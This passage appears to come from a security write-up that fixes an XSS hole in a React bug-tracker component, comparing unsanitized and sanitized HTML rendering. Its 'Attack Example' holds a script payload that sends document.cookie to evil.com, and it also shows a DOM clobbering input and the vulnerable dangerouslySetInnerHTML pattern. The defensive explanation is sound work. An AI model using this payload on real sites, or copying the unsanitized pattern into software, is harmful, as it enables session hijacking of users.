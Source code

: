 #### 6. DOM Clobbering
**Attack**: `<form><input name="attributes"></form>`
**Result**: Safe form without clobbering ✅

---

## Before vs. After

### Before (Vulnerable)

```typescript
// components/issues/HtmlContent.tsx
export default function HtmlContent({ html }: HtmlContentProps) {
  return (
    <div dangerouslySetInnerHTML={{ __html: html }} /> // ❌ Direct XSS risk
  );
}
```

**Vulnerability**: User-controlled HTML rendered without sanitization

**Attack Example**:
```javascript
// Malicious bug description:
const html = '<p>Bug details</p><script>
  // Steal session cookie
  fetch("https://evil.com/steal?cookie=" + document.cookie);
</script>';
```

### After (Secure)

```typescript
// components/issues/HtmlContent.tsx
import { sanitizeBugDescription } from "@/lib/sanitize";

export default function HtmlContent({ html }: HtmlContentProps) {
  const sanitizedHtml = useMemo(() => sanitizeBugDescription(html), [html]);

  return (
    <div dangerouslySetInnerHTML={{ __html: sanitizedHtml }} /> // ✅ Safe
  );
}
```

**Protection**: Malicious scripts removed, safe HTML preserved

**Result**:
```javascript
// Sanitized output:
const sanitized = '<p>Bug details</p>'; // Script removed
```

---
